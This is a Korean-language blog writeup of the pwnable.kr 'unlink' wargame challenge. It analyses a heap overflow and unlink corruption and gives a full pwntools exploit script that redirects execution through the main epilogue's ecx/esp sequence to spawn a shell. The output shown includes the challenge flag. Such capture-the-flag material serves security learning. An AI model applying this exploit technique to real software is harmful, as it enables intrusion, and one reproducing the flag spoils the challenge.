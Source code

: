 ```yaml
---
layout: post
title:  "Pwnable.kr unlink 풀이"
date:   2019-01-24 15:13:49 +0900
categories: pwn
tags: writeup
---
```


# unlink - 10 pt

## 문제

```
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

SSH로 연결해 들어가 보면 읽기 권한이 없는 `flag` 파일, `unlink.c` 소스코드와 `unlink` 바이너리가 주어져 있습니다. 이 문제의 목표는 `unlink` 바이너리에서 `shell`함수를 호출해 쉘을 따는 것 같네요.

## 풀이

### 개요

주어진 소스코드를 보면서 문제의 개략적인 구조를 파악해 봅시다.

```c
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;
```

`OBJ`란 구조체가 정의되어 있습니다. 구조체 포인터인 `fd`와 `bk`가 있고 8바이트를 담을 수 있는 공간이 있네요. `fd`와 `bk`의 용도는 뒤에서도 나오겠지만 여러 개의 `OBJ` 구조체를 하나의 연결 리스트처럼 이을때 사용하는 포인터랍니다.

```c
void shell(){
        system("/bin/sh");
}
```

딱 봐도 이 함수로 실행흐름을 바꿔서 쉘을 따는 것 같습니다. 참고로 `unlink` 바이너리의 권한은 `flag`파일을 읽을 수 있도록 해줍니다.

```c
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

`unlink` 바이너리의 메인 함수입니다. `OBJ` 구조체 3개 (A, B, C)를 생성한 후, A의 fd를 B로, B의 fd를 C로 연결한 다음 C의 bk를 B로, B의 bk를 A로 연결하고 있습니다. 그 다음 `gets` 함수로 A의 메모리 공간에 데이터를 입력합니다. 여기서 Heap Overflow 가 발생해서 뒤에 오는 B 구조체와 C 구조체의 메모리 공간을 마음대로 변조할 수 있게 됩니다. 그 다음 B를 `unlink` 함수로 각 구조체간의 연결을 끊습니다. `unlink` 함수를 좀더 자세히 보도록 할까요.

```c
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
```

`unlink` 함수에서는 파라미터로 주어진 `OBJ` 구조체 블록의 연결을 끊으면서 자신의 `fd`와 `bk`를 가르키고 있던 두 구조체로 연결을 시켜주네요. 결국 끊어진 구조체는 고립되게 됩니다. 그림으로 보면 이해가 더 쉬울 것 같네요. 발로 그림을 그렸나 의심할 수 있는데 손으로 그렸습니다 하하.

![1](https://raw.githubusercontent.com/cxbt/Writeup/master/Wargame/Pwnable.kr/screenshot/unlink_1.png)

### 공략 방법

`unlink` 바이너리에서 Stack 영역 주소와 Heap 영역 주소를 알려주고 있습니다. 이 문제를 접하고 하루정도 잡고 늘어지고 있었는데요, 그동안 여러가지 삽질을 시도해 봤습니다.

- `B.fd`에 `main` 함수 스택 프레임의 리턴 주소를 넣고, `B.bk`에 `shell` 함수의 주소를 넣어서 실행흐름을 바꾼다.

안타깝게도 `unlink` 함수를 호출하면 하면 `B.fd` 주소에 있는 값과 `B.bk` 주소에 있는 값이 각자의 주소로 바뀌게 됩니다. 그래서 `main` 함수 스택 프레임의 리턴 주소는 정상적으로 바꿀수 있습니다만 `shell` 함수의 주소로 가서 쓰기 작업을 할 수 없는 코드 영역에 데이터를 쓰려고 하기 때문에 Segmentation Fault가 발생하면서 프로그램이 죽습니다. (RIP)

- `A.buf`에 `jmp $shell`과 같은 어셈 코드를 넣고 위처럼 실행흐름을 Heap으로 넘긴다.

위와 비슷한 맥락의 문제가 발생하는데 어셈 코드를 넣는다고 해도 나중에 `main` 함수 주소로 덮어 씌워지게 됩니다. 그래서 프로그램이 이상해 지다가 실행할 수 없는 코드를 만나고 죽게 되죠. 게다가 바이너리에 NX가 걸려있어서 어셈 코드가 실행을 될지 모르겠네요. (알고보니 실행 됐습니다)

이 눈물나는 삽질과 노가다를 하루 종일 하다가 깨달은 건 `shell` 함수를 Heap에 저장해 놓고 리턴 주소를 직접적으로 `shell` 함수 주소로 바꾸는 것을 어렵다는 점, 그리고 이를 위해서 `shell` 함수를 간접적으로 참조하게 하는 로직을 찾아야 한다는 점입니다. 아무리 봐도 어느부분을 사용해야 되려나 봤는데 눈 씻고 찾아봐도 없어서 여러 블로그 눈팅했는데요, [이 블로그](https://go-madhat.github.io/pwnable.kr-unlink/)를 살짝살짝 읽다가 깨달음을 얻었습니다.

```assembly
0x0804852f <+0>:     lea    ecx,[esp+0x4]
0x08048533 <+4>:     and    esp,0xfffffff0
0x08048536 <+7>:     push   DWORD PTR [ecx-0x4]
0x08048539 <+10>:    push   ebp
0x0804853a <+11>:    mov    ebp,esp
...
0x080485fa <+203>:   mov    eax,0x0
0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]     <- 여기, 결국 EBP-0x4 값만 컨트롤 하면 EIP를 변조할 수 있게 된다.
0x08048602 <+211>:   leave
0x08048603 <+212>:   lea    esp,[ecx-0x4]               <- 여기
0x08048606 <+215>:   ret
```

처음 어셈블리 코드를 봤을 때 왜 저런 방식으로 함수 프롤로그를 여는지 궁금해서 구글에 쳐봤는데 컴파일러의 속마음을 아는 사람은 없었는지 이유를 찾지 못했습니다. 그러나 중요한 점은 이게 리턴 주소를 단순히 스택에 집어 넣고 `leave ret`으로 돌아가는 것이 아니라 `ECX` 범용 레지스터를 사용해서 간접적으로 참조를 시킨다는 점입니다. 왜 이렇게 컴파일러가 하는지에 대한 이유는 아직도 찾지 못했습니다. (주소 정렬하려고 이렇게 했나) 

간단하게 요약하자면 `lea esp,[ecx-0x4]` 코드를 활용하면 `shell` 함수의 주소를 간접적으로 가져올수 있습니다! :D

위에서 수행하려고 했던 방법의 한계점은 이랬죠.

- 읽기 영역인 코드 영역을 침범했다.
  - 이번에는 Heap과 Stack에 있는 값을 변조할 것이기 때문에 코드 영역을 침범하지 않습니다!
- 값이 서로 뒤바뀌어서 직접적으로 값을 참조할 수 없다.
  - `ESP`를 변조하는 값이 `[ecx-0x4]`이기 때문에 서로 뒤바뀐 값이 들어있는 영역이 아니라 그 영역에서 4바이트 전의 영역을 사용할 수 있다. 여기에 `shell` 함수의 주소를 넣고 이쪽으로 실행흐름을 돌리면 되겠네요.

아래 코드는 위에서 설명한 방법을 사용하는 익스플로잇 코드입니다.

```python
from pwn import *

p = process("/home/unlink/unlink")
d = p.recvuntil("get shell!")
print d

# 문제에서 주어진 Stack, Heap, Shell 함수의 주소를 가져온다.
stack = int(d.split(":")[1].split()[0].strip(),16)
heap = int(d.split(":")[2].split()[0].strip(),16)
shell = "\xeb\x84\x04\x08"

# 페이로드를 구성한다.
payload = ""
payload += shell+'A'*12         # A.buf[8] = Shell 함수 4바이트 + "A"*4
payload += p32(stack + 0xc)     # B.fd = EBP-0x4 위치를 주어진 Stack 주소에서 계산해 넣는다.
payload += p32(heap + 0xc)      # A.buf+4 = ecx-0x4를 참조하기 때문에 A.buf+4 주소를 넣는다.

print repr(payload)

p.send(payload)
print p.recvline()
p.interactive()
```

실행하면 매끄럽게 따지는 마술을 볼수 있습니다. 와우.

```bash
unlink@ubuntu:~$ python /tmp/nvm.py
[+] Starting local process '/home/unlink/unlink': Done
here is stack address leak: 0xff974b84
here is heap address leak: 0x929e410
now that you have leaks, get shell!
'\xeb\x84\x04\x08AAAAAAAAAAAA\x90K\x97\xff\x1c\xe4)\t'


[*] Switching to interactive mode
$ ls
flag  intended_solution.txt  unlink  unlink.c
$ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```

Heap 영역에서 발생하는 여러가지 취약점 중 간략화된 `Double Free Bug`를 사용해서 풀도록 만든 문제였습니다. 더 많은 Heap 영역에서 발생하는 취약점을 알고 싶으시다면 [블랙펄시큐리티 블로그 글](https://bpsecblog.wordpress.com/2016/10/06/heap_vuln/)을 한번 읽어보세요.

---

<sub>
더 많은 문제풀이는 제 [리포](https://github.com/cxbt/Writeup)에서 확인하실수 있습니다.
</sub>
